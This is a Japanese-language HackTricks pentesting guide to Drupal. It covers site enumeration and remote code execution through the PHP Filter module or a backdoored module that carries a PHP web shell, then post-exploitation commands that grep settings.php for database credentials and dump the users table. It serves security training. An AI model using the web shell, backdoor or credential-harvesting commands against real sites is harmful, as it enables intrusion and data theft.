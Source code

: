 # Drupal

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)に参加するか、[telegramグループ](https://t.me/peass)に参加するか、Twitterで** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**をフォローする。**
* **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。**

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Discovery

* **meta**をチェック
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **はノードを使用してコンテンツをインデックス化**します。ノードにはブログ投稿、投票、記事など、**何でも保持**できます。ページのURIは通常、`/node/<nodeid>`の形式です。
```bash
curl drupal-site.com/node/1
```
## 列挙

Drupalはデフォルトで**3種類のユーザー**をサポートしています:

1. **`管理者`**: このユーザーはDrupalウェブサイト全体を完全に制御できます。
2. **`認証ユーザー`**: これらのユーザーはウェブサイトにログインし、権限に基づいて記事の追加や編集などの操作を行うことができます。
3. **`匿名`**: すべてのウェブサイト訪問者は匿名として指定されます。デフォルトでは、これらのユーザーは投稿を読むことしか許可されていません。

### バージョン

* `/CHANGELOG.txt`をチェック
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupalの新しいインストールでは、デフォルトで`CHANGELOG.txt`と`README.txt`ファイルへのアクセスがブロックされています。
{% endhint %}

### ユーザー名の列挙

#### 登録

_ /user/register_ でユーザー名を作成しようとすると、すでに使用されている名前の場合に通知されます：

![](<../../.gitbook/assets/image (325).png>)

#### 新しいパスワードのリクエスト

既存のユーザー名に対して新しいパスワードをリクエストする場合：

![](<../../.gitbook/assets/image (900).png>)

存在しないユーザー名に対して新しいパスワードをリクエストする場合：

![](<../../.gitbook/assets/image (304).png>)

### ユーザー数の取得

_ /user/\<number>_ にアクセスすると、存在するユーザー数を確認できます。この場合、_ /users/3_ は見つかりませんエラーを返します：

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### 非表示ページ

**`/node/$` と入力し、`$` には番号が入ります**（たとえば1から500まで）。\
検索エンジンによって参照されていない**非表示ページ**（テスト、開発）を見つけることができます。

#### インストールされたモジュールの情報
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### 自動
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHPフィルターモジュールを使用する

{% hint style="warning" %}
Drupalの**古いバージョン（バージョン8より前）**では、管理者としてログインし、**`PHP filter`モジュールを有効にする**ことが可能でした。これにより、「埋め込みPHPコード/スニペットを評価できる」ようになります。
{% endhint %}

**プラグインphpがインストールされている必要があります**（_/_modules/php_ にアクセスして**403**が返された場合は、**存在します**。**見つからない**場合は、**プラグインphpがインストールされていません**）

_Modules_に移動 -> (**Check**) _PHP Filter_ -> _Save configuration_

![](<../../.gitbook/assets/image (247) (1).png>)

その後、_Add content_をクリック -> _Basic Page_または_Article_を選択 -> _本文にphpシェルコードを記述_ -> _Text format_で_PHP code_を選択 -> _Preview_を選択

![](<../../.gitbook/assets/image (335).png>)

最後に、新しく作成したノードにアクセスしてください：
```bash
curl http://drupal-site.local/node/3
```
### PHPフィルターモジュールのインストール

バージョン**8以降**から、[**PHPフィルター**](https://www.drupal.org/project/php/releases/8.x-1.1) **モジュールはデフォルトでインストールされていません**。この機能を活用するには、**モジュールを自分でインストールする必要があります**。

1. Drupalのウェブサイトからモジュールの最新バージョンをダウンロードします。
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. ダウンロードが完了したら、**`管理`** > **`レポート`** > **`利用可能な更新`**に移動します。
4. **`参照`**をクリックし、ダウンロードしたディレクトリからファイルを選択して、**`インストール`**をクリックします。
5. モジュールがインストールされたら、**`コンテンツ`**をクリックして、Drupal 7の例と同様に**新しい基本ページを作成**します。再度、**`テキスト形式`のドロップダウンから`PHPコード`を選択**することを忘れないでください。

### バックドア付きモジュール

バックドア付きモジュールは、**既存のモジュールにシェルを追加することで作成**できます。モジュールはdrupal.orgのウェブサイトで見つけることができます。[CAPTCHA](https://www.drupal.org/project/captcha)などのモジュールを選択しましょう。tar.gz形式の[アーカイブ](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz)のリンクをコピーします。

* アーカイブをダウンロードして、その内容を抽出します。
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* 以下の内容で **PHPウェブシェル** を作成します：
```php
<?php
system($_GET["cmd"]);
?>
```
* 次に、フォルダへのアクセス権を自分自身に与えるために **`.htaccess`** ファイルを作成する必要があります。これは、Drupalが **`/modules`** フォルダへの直接アクセスを拒否するために必要です。
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* 上記の構成は、/modules内のファイルをリクエストしたときに/folderにルールを適用します。これらのファイルをcaptchaフォルダにコピーして、アーカイブを作成してください。
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* ウェブサイトに **管理アクセス** があると仮定して、サイドバーの **`管理`** をクリックし、次に **`拡張`** をクリックします。次に、**`+ 新しいモジュールをインストール`** ボタンをクリックし、インストールページに移動します。例：`http://drupal-site.local/admin/modules/install` バックドア付きの Captcha アーカイブに移動して **`インストール`** をクリックします。
* インストールが成功したら、**`/modules/captcha/shell.php`** に移動してコマンドを実行します。

## ポストエクスプロイテーション

### settings.php を読む
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### データベースからユーザーをダンプする
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## 参考

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい場合は** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスウェグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live) をフォローする。**
* **ハッキングテクニックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出する。

</details>
